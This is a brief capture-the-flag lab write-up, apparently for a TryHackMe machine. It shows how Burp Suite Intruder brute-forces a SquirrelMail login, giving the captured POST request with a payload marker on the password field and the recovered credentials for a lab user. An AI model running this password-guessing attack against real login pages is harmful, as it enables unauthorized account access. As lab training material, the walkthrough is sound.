


## Burpsuite Intruder 
* we can capture the login request from `10.10.234.119/squirrelmail`

```
POST /squirrelmail/src/redirect.php HTTP/1.1
Host: 10.10.234.119
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 81
Origin: http://10.10.234.119
Connection: close
Referer: http://10.10.234.119/squirrelmail/src/login.php
Cookie: squirrelmail_language=deleted; SQMSESSID=2oq7v3pbt9sfhsls7s0b3jvsm5
Upgrade-Insecure-Requests: 1

login_username=milesdyson&secretkey=§test§&js_autodetect_results=1&just_logged_in=1
```
* we set a position on the `secretkey` field which is where the password list will be used 
* let's load `log1.txt` under `Payload Options[Simple List]`





* after starting the attack we find a valid username and password combination - `milesdyson:cyborg007haloterminator`
